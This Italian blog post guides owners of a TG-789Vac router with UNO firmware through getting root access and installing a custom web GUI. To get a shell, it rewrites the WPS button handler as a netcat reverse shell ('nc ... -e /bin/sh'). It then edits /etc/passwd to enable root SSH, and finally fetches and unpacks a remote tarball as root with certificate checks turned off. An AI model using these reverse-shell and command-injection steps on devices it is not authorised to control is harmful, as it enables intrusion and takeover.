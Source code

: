 ```yaml
---
layout: post
title:  "ROOT e Custom GUI per TG-789Vac"
date:   2019-02-25 00:00:00 
---
```

Guida al Root del dispositivo, con firmware UNO aggiornato all'ultima versione (17.2).  

Il router in questione è quello bianco della foto, in Italia viene distribuito da Tim o Fastweb per abbonamenti vdsl.
<a href="/media/agtot/router.png"><img src="/media/agtot/router.png" alt="Agpwi Photo" style="float: right;" />  


Se non hai ancora installato il firmware UNO eccoti la guida: [Come Flashare UNO sul TG-789Vac]({% post_url 2018-08-05-AGTOT-FW %})


><span style="color:red">**DISCLAIMER**</span>: Non mi ritengo responsabile per eventuali router brickati, eventuali gatti morti o guerre termonucleari dovute ad un malfunzionamento del suddetto prodotto.  

><span style="color:red">**NOTA**</span>: La procedura viene eseguita su Linux  



**Procedimento:**

1. Impostare netcat in ascolto sul proprio pc con: ```nc -lvvp 1337```

2. Loggarsi sul router in SSH usando come credenziali:
```
        -Username: engineer
        -Password: quella usata per loggarsi come admin nella webui
```
        
2. Dare questo comando: ```set uci.button.button.@wps.handler 'nc 192.168.1.X 1337 -e /bin/sh'```

3. Premere il pulsante laterale per far partire netcat 

4. Dare questi comandi sulla shell netcat aperta:
```
    set uci.button.button.@wps.handler 'wps_button_pressed.sh'
    sed -i 's#root:/bin/false#root:/bin:ash#' /etc/passwd
    uci set dropbear.lan.RootPasswordAuth='on'
    uci set dropbear.lan.RootLogin='1'
    uci commit
    /etc/init.d.dropbear restart
    passwd
```
Con il comando ```passwd``` chiedera' di inserire la password dell'utente root. 

5. Fine. Ora e' possibile loggarsi in SSH come root/password 


**Procedura per installare la gui di ansuel:**

><span style="color:red">**NOTA**</span>: Per evitare vari problemi alla ui, e' consigliabile aver gia' configurato il modem per la navigazione in internet.

1. Loggarsi sul router in SSH come root ( vedi sopra)

2. Dare i seguenti comandi:
```
    curl -k https://raw.githubusercontent.com/Ansuel/gui-dev-build-auto/master/GUI.tar.bz2 --output /tmp/GUI.tar.bz2
    bzcat /tmp/GUI.tar.bz2 | tar -C / -xvf -
    /etc/init.d/rootdevice force
```
A procedura finita, e' consigliabile riavviare il modem con ```reboot```

3. Godersi la nuova ui! (creata da ANSUEL, pagina [GitHub](https://github.com/Ansuel/tch-nginx-gui) )


**Fine**


<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = https://pietrotti97.com/pagine/a-router/mod-fw/2019/02/25/AGTOT-root.html;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = agtotroot; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://pietrotti97.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>




